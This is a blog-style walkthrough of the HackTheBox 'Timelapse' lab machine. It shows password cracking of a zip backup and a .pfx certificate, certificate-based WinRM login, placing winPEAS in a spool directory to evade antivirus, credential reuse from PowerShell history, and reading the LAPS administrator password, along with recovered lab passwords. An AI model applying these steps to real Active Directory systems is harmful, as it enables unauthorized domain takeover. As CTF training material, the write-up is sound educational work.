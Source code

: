 ```yaml
---
layout: post
title: Box - Timelapse
published: true
---
```


HackTheBox CTF Box - Remote access comes in different flavors.


![](/assets/timelapse01.jpg)

* * *

## Nmaps

```shell
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-07-08 06:01:53Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
5986/tcp  open  ssl/http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2022-07-08T06:04:57+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233 a199 4504 0859 013f b9c5 e4f6 91c3
| SHA-1: 5861 acf7 76b8 703f d01e e25d fc7c 9952 a447 7652
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQLRY/feXALoZCPZtUeyiC4DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwHhcNMjExMDI1MTQwNTI5WhcN
| MjIxMDI1MTQyNTI5WjAdMRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJdoIQMYt47skzf17SI7M8jubO
| rD6sHg8yZw0YXKumOd5zofcSBPHfC1d/jtcHjGSsc5dQQ66qnlwdlOvifNW/KcaX
| LqNmzjhwL49UGUw0MAMPAyi1hcYP6LG0dkU84zNuoNMprMpzya3+aU1u7YpQ6Dui
| AzNKPa+6zJzPSMkg/TlUuSN4LjnSgIV6xKBc1qhVYDEyTUsHZUgkIYtN0+zvwpU5
| isiwyp9M4RYZbxe0xecW39hfTvec++94VYkH4uO+ITtpmZ5OVvWOCpqagznTSXTg
| FFuSYQTSjqYDwxPXHTK+/GAlq3uUWQYGdNeVMEZt+8EIEmyL4i4ToPkqjPF1AgMB
| AAGjRjBEMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNV
| HQ4EFgQUZ6PTTN1pEmDFD6YXfQ1tfTnXde0wDQYJKoZIhvcNAQELBQADggEBAL2Y
| /57FBUBLqUKZKp+P0vtbUAD0+J7bg4m/1tAHcN6Cf89KwRSkRLdq++RWaQk9CKIU
| 4g3M3stTWCnMf1CgXax+WeuTpzGmITLeVA6L8I2FaIgNdFVQGIG1nAn1UpYueR/H
| NTIVjMPA93XR1JLsW601WV6eUI/q7t6e52sAADECjsnG1p37NjNbmTwHabrUVjBK
| 6Luol+v2QtqP6nY4DRH+XSk6xDaxjfwd5qN7DvSpdoz09+2ffrFuQkxxs6Pp8bQE
| 5GJ+aSfE+xua2vpYyyGxO0Or1J2YA1CXMijise2tp+m9JBQ1wJ2suUS2wGv1Tvyh
| lrrndm32+d0YeP/wb8E=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
56949/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=7/7%OT=53%CT=%CU=%PV=Y%G=N%TM=62C75889%P=x86_64-pc-linux-gnu)
SEQ(SP=FE%GCD=1%ISR=10E%TI=I%II=I%SS=S%TS=U)
OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS%O6=M539NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-07-08T06:04:17
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 24458/tcp): CLEAN (Timeout)
|   Check 2 (port 32357/tcp): CLEAN (Timeout)
|   Check 3 (port 13478/udp): CLEAN (Timeout)
|   Check 4 (port 22941/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

* * * 

## Enumerate SMB

- List shares ``smbclient -L 10.10.11.152``
- We find a backup file and some other files lets wget everything
- The winrm_backup.zip is password protected, lets feed to john.

1. ``zip2john winrm_backup.zip > winrm_backuphash``
2. ``john winrm_backuphash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
3. supremelegacy lets open the zip

- We're left with ``legacyy_dev_auth.pfx`` which is some sort of security cert.

Being a noob, and trying to figure out what a .pfx file even is I came accross this site: [https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file). So gong to follow these steps and see where that takes me.

1. ``openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key``

- Okay so we're promt for a password...
- After doing some searching looks like we can use john for this.

1. ``pfx2john legacyy_dev_auth.pfx > legacyy_hash``
2. ``john legacyy_hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --rule /usr/share/john/rules/rockyou-30000.rule``
3. We now have the password to access the key.
4. Extract the private key ``openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key -nodes`` we need to add -noDES to the end to avoid encryption
5. Extract the certificate ``openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.cert``
6. Decrypt the private key ``openssl rsa -in legacyy.key -out legacyy-decrypt.key``

- Remove the header from the .key
- Now we should be able to use evil-winrm to access the system.

* * * 

## Evil-WinRM & Root

- ``evil-winrm -S -k legacyy.key -c legacyy.cert -i 10.10.11.152``

Now that we're connected we can continue with enumeration.

- ``whoami /user``
- ``whoami /priv``
- Upload winpeas ``upload winPEASx64.exe``
- We cant run this it thinks its a virus, but maybe it will run in spool dir

1. ``cd "C:\Windows\System32\spool\drivers\color"``
2. ``upload winPEASx64.exe``

- Not much but there is Console History

![](/assets/timelapse02.png)

- Because svc_deploy is being used here - We can reuse these credentials to pass commands via PS-Remoting using this formula ``invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}``

```shell
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/8/2022 5:26:09 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

- So we can use ``svc_deploy`` to extract the ``Local Administrator`` password because they are a member of the ``LAPS_Readers`` group.

- Check for LAPS Password using AD-Module ``invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}``

```shell
PSComputerName              : localhost
RunspaceId                  : ffe8479d-c003-4175-a215-7adbabdd5090
DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-Mcs-AdmPwd               : d)#YQuU5gTQi%e6Eb(k5-VQH
ms-Mcs-AdmPwdExpirationTime : 133021880961083881
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :
```

- We can now use ``evil-winrm`` to PS-Remote with this credential.
- ``evil-winrm -S -u 'Administrator' -p 'd)#YQuU5gTQi%e6Eb(k5-VQH' -i 10.10.11.152``
- root.txt is on the admin's desktop

* * *

